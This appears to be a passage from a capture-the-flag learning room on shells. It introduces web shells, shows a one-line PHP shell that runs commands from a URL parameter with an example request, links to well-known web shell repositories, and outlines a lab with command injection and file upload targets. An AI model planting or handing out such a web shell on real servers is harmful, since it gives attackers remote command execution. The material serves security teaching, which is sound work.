 #### 🕷️ b374k-shell
![b374k-shell Screenshot](https://github.com/user-attachments/assets/54c5f419-e209-44d8-911c-2d849402db0d)

#### 💀 c99-shell
![c99-shell Screenshot](https://github.com/user-attachments/assets/f99683a3-82f7-4a07-8b6a-b28460c36775)


Web shells are scripts uploaded to vulnerable web servers. They allow attackers to run commands through a browser.

### 📄 PHP Web Shell Example:
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

### 🔗 Usage:
```http
http://victim.com/shell.php?cmd=whoami
```

### 🧰 Popular Web Shells:
- [p0wny-shell](https://github.com/flozz/p0wny-shell)
- [b374k](https://github.com/b374k/b374k)
- [c99](https://github.com/tennc/webshell)

> More at: [r57shell.net](https://www.r57shell.net/index.php)

---

## 🧪 Task 8 - Practical Exercise

### Start Machine
Access the shell challenge via:

- `http://MACHINE_IP:8080`: Static landing page
- `http://MACHINE_IP:8081`: Command Injection vuln
- `http://MACHINE_IP:8082`: File Upload vuln

Goal: Get the flag in `THM{}` format.

---

## ✅ Task 9 - Conclusion

### 📌 Recap of Shell Types:
| Type | Description | Direction |
|------|-------------|-----------|
| Reverse | Victim connects to attacker | Outbound |
| Bind | Attacker connects to victim | Inbound |
| Web | Executed through HTTP requests | Browser-based |
